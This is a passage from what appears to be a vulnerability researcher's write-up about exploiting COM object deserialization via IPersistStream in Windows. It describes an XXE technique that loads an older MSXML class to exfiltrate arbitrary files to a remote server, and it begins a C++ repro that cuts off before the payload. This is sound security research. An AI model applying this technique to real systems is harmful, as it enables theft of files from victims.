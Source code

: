 A class identifier is indeed read directly from the archive, and a COM object is instantiated. Although we can instantiate any COM object, it needs to implement [IID_IPersistStream](https://learn.microsoft.com/en-us/windows/win32/api/objidl/nn-objidl-ipersiststream) or [IID_IPersistStreamInit](https://learn.microsoft.com/en-us/windows/win32/api/ocidl/nn-ocidl-ipersiststreaminit) otherwise the function bails. If you are not familiar with this interface, here's what the MSDN says about it:

> Enables the saving and loading of objects that use a simple serial stream for their storage needs.

You can serialize such an object with [Save](https://learn.microsoft.com/en-us/windows/win32/api/objidl/nf-objidl-ipersiststream-save), send those bytes over a socket / store them on the filesystem, and recreate the object on the other side with [Load](https://learn.microsoft.com/en-us/windows/win32/api/objidl/nf-objidl-ipersiststream-load). The other exciting detail is that the COM object loads itself from the stream in which we can place arbitrary content (via the socket).

This seemed **highly insecure** so I was over the moon. I knew there would be a way to exploit that behavior although I might not find a way in time. But I was convinced there has to be a way 💪🏽.

# 🔥 Exploit engineering: Building Paracosme

First, I wrote tooling to enumerate available COM objects implementing either of the interfaces on a freshly installed system, and loaded them one by one. While doing that, I ran into a couple of memory safety issues that I reported to MSRC as [CVE-2022-21971](https://github.com/0vercl0k/CVE-2022-21971) and [CVE-2022-21974](https://github.com/0vercl0k/CVE-2022-21974). It turns out RTF documents (loadable via Microsoft Word) can embed arbitrary COM class IDs that get instantiated via `OleLoad`. Once I had a list of candidates, I moved away from automation, and started to analyze them manually.

That search didn't yield much to be honest which was disappointing. The only mildly interesting thing I found is a way to exfiltrate arbitrary files via an [XXE](https://portswigger.net/web-security/xxe). It was really nice because it’s 100% reliable. I loaded an older `MSXML` (Microsoft XML, `2933BF90-7B36-11D2-B20E-00C04F983E60`), and sent a crafted XML document in the stream to exfiltrate an arbitrary file to a remote HTTP server. Maybe this trick is useful to somebody one day, so here is a repro:

```c++
#include <cinttypes>
#include <cstdint>
#include <optional>
#include <shlwapi.h>
#include <string>
#include <unordered_map>
#include <windows.h>
#pragma comment(lib, "shlwapi.lib")

std::optional<GUID> Guid(const std::string &S) {
  GUID G = {};
  if (sscanf_s(S.c_str(),
               "{%8" PRIx32 "-%4" PRIx16 "-%4" PRIx16 "-%2" PRIx8 "%2" PRIx8 "-"
               "%2" PRIx8 "%2" PRIx8 "%2" PRIx8 "%2" PRIx8 "%2" PRIx8 "%2" PRIx8
               "}",
               &G.Data1, &G.Data2, &G.Data3, &G.Data4[0], &G.Data4[1],
               &G.Data4[2], &G.Data4[3], &G.Data4[4], &G.Data4[5], &G.Data4[6],
               &G.Data4[7]) != 11) {
    return std::nullopt;
  }

  return G;
}

int main(int argc, char *argv[]) {
  const char *Key = "{2933BF90-7B36-11D2-B20E-00C04F983E60}";
  const auto &ClassId = Guid(Key);

  CoInitialize(nullptr);
  if (!ClassId.has_value()) {
```